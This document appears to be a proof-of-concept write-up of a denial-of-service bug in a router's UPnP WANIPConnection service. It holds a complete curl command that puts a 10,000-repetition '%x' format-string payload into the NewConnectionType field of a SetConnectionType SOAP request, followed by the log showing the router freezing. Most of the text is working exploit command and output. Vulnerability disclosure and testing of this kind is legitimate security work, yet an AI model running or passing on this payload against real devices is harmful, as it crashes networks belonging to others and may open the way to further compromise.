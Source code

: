 ### Response:

```bash
*   Trying 192.168.1.1:5431...
* Connected to 192.168.1.1 (192.168.1.1) port 5431
> POST /control/WANIPConnection HTTP/1.1
> Host: 192.168.1.1:5431
> User-Agent: curl/8.8.0
> Accept: */*
> Content-Type: text/xml
> SOAPAction: "urn:schemas-upnp-org:service:WANIPConnection:1#SetConnectionType"
> Content-Length: 299
>
* upload completely sent off: 299 bytes
< HTTP/1.1 200 OK
< Content-Type: text/xml; charset="utf-8"
< Connection: close
< Content-Length: 304
< Server: UPnP/1.0 BLR-TX4S/1.0
< Ext:
<
<?xml version="1.0"?>
<s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><s:Body>    <u:SetConnectionTypeResponse xmlns:u="urn:schemas-upnp-org:service:WANIPConnection:1">
    </u:SetConnectionTypeResponse>
* Closing connection
</s:Body></s:Envelope>
```

#### We send the malformed request now:

```bash
curl -v -X POST "http://192.168.1.1:5431/control/WANIPConnection" \
     -H "Content-Type: text/xml" \
     -H "SOAPAction: \"urn:schemas-upnp-org:service:WANIPConnection:1#SetConnectionType\"" \
     -d '<?xml version="1.0"?>
<s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/">
  <s:Body>
    <u:SetConnectionType xmlns:u="urn:schemas-upnp-org:service:WANIPConnection:1">
      <NewConnectionType>'"$(perl -e 'print "%x" x 10000;')"'</NewConnectionType>
    </u:SetConnectionType>
  </s:Body>
</s:Envelope>'
```

#### Response
```bash
*   Trying 192.168.1.1:5431...
* Connected to 192.168.1.1 (192.168.1.1) port 5431
> POST /control/WANIPConnection HTTP/1.1
> Host: 192.168.1.1:5431
> User-Agent: curl/8.8.0
> Accept: */*
> Content-Type: text/xml
> SOAPAction: "urn:schemas-upnp-org:service:WANIPConnection:1#SetConnectionType"
> Content-Length: 20279
>
* upload completely sent off: 20279 bytes

(Completely frozen here router crash)
```
### Video demonstration: 
